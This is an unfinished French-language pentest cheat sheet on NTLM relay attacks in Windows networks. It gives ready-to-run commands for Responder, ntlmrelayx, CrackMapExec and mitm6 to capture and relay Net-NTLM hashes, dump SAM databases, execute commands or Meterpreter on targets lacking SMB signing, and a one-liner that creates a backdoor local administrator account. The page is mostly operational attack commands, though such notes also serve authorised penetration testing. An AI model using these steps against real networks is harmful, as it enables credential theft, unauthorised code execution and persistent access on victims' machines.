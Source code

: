 ```yaml
---
description: A finir
---
```


# NTLM Relay

Prendre la dernière version de Responder ([https://github.com/lgandx/Responder](https://github.com/lgandx/Responder))

### Ecoute passive

```
sudo python3 responder -I eth0
```

Les _hashs_ NT utilisé dans la version 1 et 2 du protocole NTLM (a.k.a Net-NTLMv1-SSP et Net-NTLMv2-SSP) peuvent être relayés.

### Relayer

Pour pouvoir relayer, il faut que les services SMB et HTTP de Responder soit stoppés (fichier de configuration Responder.conf). Ceci permet le bon fonctionnement de `ntlmrelayx`.

```
# Terminal 1 (dans le docker impacket)
Dumper la base SAM : ntlmrelayx -tf <TARGETS.txt>
Exécuter une commande : ntlmrelayx -tf <TARGETS.txt> -c <COMMANDE ou METERPRETER>

# Terminal 2
sudo python3 responder -I eth0 -d -w # Les hashs sont visibles dans Responder/logs/Responder-Session.log
```

#### TIPS

* `-smb2support` : Option qui permet de supporter le protocole SMBv2
* `-i` : Option pour exécuter des commandes de manière interactive
* `-c "net user user pass /add && net localgroup Administrators user /add"` : Ajoute un administrateur local

Le fichier `TARGETS.txt` contient les IP des machines dont la signature SMB n'est pas activée. Cette liste de machine peut être récupérée avec la commande suivante :&#x20;

```
cme smb <IP>/<MASK> --gen-relay-list <TARGETS.txt>
```

### IPv6

Prendre la dernière version de `mitm6` ([https://github.com/dirkjanm/mitm6](https://github.com/dirkjanm/mitm6)). Après l'installation, en cas d'erreur `matplotlib`, exécuter la commande suivante :&#x20;

```
sudo pip install --upgrade matplotlib
```

Pour relayer les commandes sont les suivantes :&#x20;

```
# Terminal 1 (dans le docker impacket)
ntlmrelayx.py -6 -tf <TARGETS.txt>

# Terminal 2 
sudo mitm6 -d <DOMAIN.LOCAL>
```
